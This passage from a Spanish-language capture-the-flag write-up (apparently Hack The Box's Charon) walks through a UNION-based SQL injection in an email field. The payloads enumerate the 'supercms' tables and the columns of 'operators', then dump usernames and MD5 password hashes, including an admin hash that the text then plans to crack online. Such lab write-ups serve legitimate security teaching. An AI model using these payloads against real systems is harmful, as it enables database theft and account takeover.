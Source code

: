 ```bash
Email: test@test.com' UNion select 1,2,3,concat(table_name,"@.") from information_schema.tables where table_schema="supercms" limit 3,1-- -
[*] User not found with that email!    
Email: 
```

Ya tenemos las tablas que componen la base de datos `supercms` que son `license` y `operators`. Aqui ya nos llama más la atención la segunda tabla, así que vamos a listar las columnas de dicha tabla:

```bash
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 1,1-- -
[*] Email sent to: __username_@.=
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 2,1-- -
[*] Email sent to: __password_@.=
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 3,1-- -
[*] Email sent to: email@.=
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 4,1-- -
[*] User not found with that email!    
Email:  
```

Ya tenemos las columnas de la tabla `operators`, las cuales son: `__username_`, `__password_` y `email`. Por lo tanto, lo que nos queda es listar los datos de dichas columnas.

```bash
[*] Email sent to: test51:5f4dcc3b5aa765d61d8327deb882cf99@.=
Email: test@test.com' UNion select 1,2,3,concat(__username_,0x3a,__password_,"@.") from operators limit 100,1-- -
[*] Email sent to: test101:5f4dcc3b5aa765d61d8327deb882cf99@.=
Email: test@test.com' UNion select 1,2,3,concat(__username_,0x3a,__password_,"@.") from operators limit 200,1-- -
[*] Email sent to: super_cms_adm:0b0689ba94f94533400f4decd87fa260@.=
Email:
```

Vemos varios usuarios, pero ya tenemos uno que nos debe llamar mucho la atención: `super_cms_adm` y tenemos su contraseña hasheada; por lo que vamos a crackearla con la herramienta online [crackstation](https://crackstation.net/)

![""](/assets/images/htb-charon/charon-hash.png)
